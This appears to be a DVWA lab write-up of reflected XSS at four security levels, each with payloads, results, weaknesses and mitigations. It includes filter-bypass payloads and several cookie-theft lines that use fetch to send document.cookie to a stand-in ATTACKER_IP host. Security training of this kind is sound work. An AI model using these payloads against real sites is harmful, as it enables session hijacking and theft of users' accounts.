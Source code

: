 # 🗂️ Reflected_XSS Vulnerability Writeup

📌 Description

Reflected Cross-Site Scripting (XSS) occurs when user input is immediately returned by the server in an HTTP response without proper sanitization. In this scenario, the malicious script is not stored on the server but is reflected back to the victim and executed in their browser.

## ⚙️ Lab Setup
- **Platform**: DVWA (Damn Vulnerable Web Application)
- **Target Page**: `/vulnerabilities/xss_r/`
- **Tested With**: Firefox, Burp Suite, Kali Linux
- **Security Levels Tested**: Low, Medium, High, Impossible

# 🔓 Low Security Level

### 🛠️ Exploitation Steps

1 Navigate to vulnerable page http://127.0.0.1/DVWA/vulnerabilities/xss_r/
2 Observe reflection Hello {USER_INPUT}
3 Inject basic payload:
* http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<script>alert(1)</script>
4 Try alternative payloads:
* "><img src=x onerror=alert('XSS')>
* <svg onload=alert(document.domain)>
5 Weaponization 
* Replace alert(1) with a real attack to exfiltrate cookies:
* http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<script>fetch('http://ATTACKER_IP:9000/?c='+document.cookie)</script>
# When the victims clicks this crafted link, their session cookie is sent to theattacker

✅ Result

- Able to execute arbitrary JavaScript in victim’s browser.
- Real-world impact: session hijacking, phishing, keylogging, or redirection
- Payloads reflected without any sanitization or encoding.

🔎 Weaknesses
- No input validation or output encoding.
- Application directly reflects unsanitized user input into HTML.
- No Content Security Policy (CSP) to mitigate exploitation.

🔐 Mitigations
- Input validation and output encoding:  Encode user input before displaying 
- Implement Content Security Policy (CSP): Disallow inscript script and restrict external sources
- Use an allow-list approach : Only allowed expected character should be allowed to execute
NB: This level is critically vulnerable since exploitation is done with filtering.

## 🟡 Medium Security Level

🎯 Exploitation Steps
1 Navigate to vulnerable page http://127.0.0.1/DVWA/vulnerabilities/xss_r/
2 Test basic payload ?name=<script>alert(1)</script> 
* Payloads fails or blocked
3 Try attribute-breaking injection
* ?name=" autofocus onfocus=alert(1) " when the page loads this payload auto-focuses and trigger the alert 
4 Event handlers bypass: Filters blocks <script> tags, but event handlers still  work 
* ?name="><img src=x onerror=alert(1)>
* ?name="><svg onload=alert(document.domain)>
5 Privelege escalation: Steal cookies or redirect with "fetech" or" windows.location"
* ?name="><img src=x onerror="fetch('http://ATTACKER_IP:9000/?c='+document.cookie)"> 
When a victim visits this link, their cookies are sent to the attacker's server

NB: Through the source page, you realize its case sensitive so deceiving the server with this payload <SCRIPT>alert(1)</script> will work. <scr<script>ipt>alert(1)</script> this will strip off the full “script” and will be the with the pieces which will then be full, deceiving the server. 

✅ Result

- Despite filtering, DOM reflection remains exploitable.
- Able to trigger XSS by breaking attribute context and leveraging event handlers.
- Real-world impact: session hijacking, phishing, or user redirection.
 
🔎 Weaknesses
* Filtering focuses on blacklisting <script> tags but does not address:
  * Attribute injection.
  * Event handlers (onerror, onload, etc.).
  * Alternative elements like <svg>, <iframe>.
  * No CSP to block inline JavaScript.

🔐 Mitigations
- Content Security Policy (CSP)
  * Disallow inline scripts and reduce attack surface
- Allow list validation
  * Restrict input strictly to expected patterns

## 🔴 High Security Level

🎯 Exploitation Steps
1 Navigate to: http://127.0.0.1/DVWA/vulnerabilities/xss_r/ and observe the behavior
* Inspect the HTML source. Input from the name parameter is reflected into the page but passed through a stronger sanitization function. <, >, ", and ' are filtered/encoded.
2 Attempted payloads like this fails but harmless 
* ?name=<script>alert(1)</script>
3 Event handlers: Inject with event handlers that bypass filters
 * ?name=" autofocus onfocus=alert(document.domain) "
When page loads, inputs auto-focuses and executes
4 Try other alternative payloads 
 * ?name="><svg onload=alert(document.cookie)>
 * ?name="><img src=x onerror=alert('XSS')>
5 Weaponization: Replace harmless alerts with real attacks, e.g., cookie exfiltration
 * ?name="><img src=x onerror="fetch('http://ATTACKER_IP:9000/?c='+document.cookie)">
  * Victim’s browser executes payload and sends session data to attacker’s server

✅ Result
- Despite advanced filtering, exploitation is possible.
- Successfully executed JavaScript through encoding tricks and event-handler injection.
- Demonstrated potential for session hijacking, credential theft

🔎 Weaknesses
- Application does not enforce strict input validation e.g only alphabets etc
- No CSP prevents inline JavaScript.
- Filtering is blacklist-based, which attackers can bypass with obfuscation.

🔐 Mitigations
- Enforce strong Content Security Policy (CSP) :Block inline scripts and restrict external sources.
- Whitelist input validation: Only accept expected values (e.g., alphabetic names, lengths ≤ 50).

## 🔴 Impossible Level

1 These payloads may fail and not execute
* #<script>alert(1)</script>
* #"><img src=x onerror=alert(1)>
* #?name=" autofocus onfocus=alert(document.domain)

✅ Result
- All attempts are neutralized.
- Application properly encodes special characters (<, >, ", ') before reflecting them.
- No JavaScript execution possible.

NB: This makes the Impossible level not exploitable for reflected XSS.
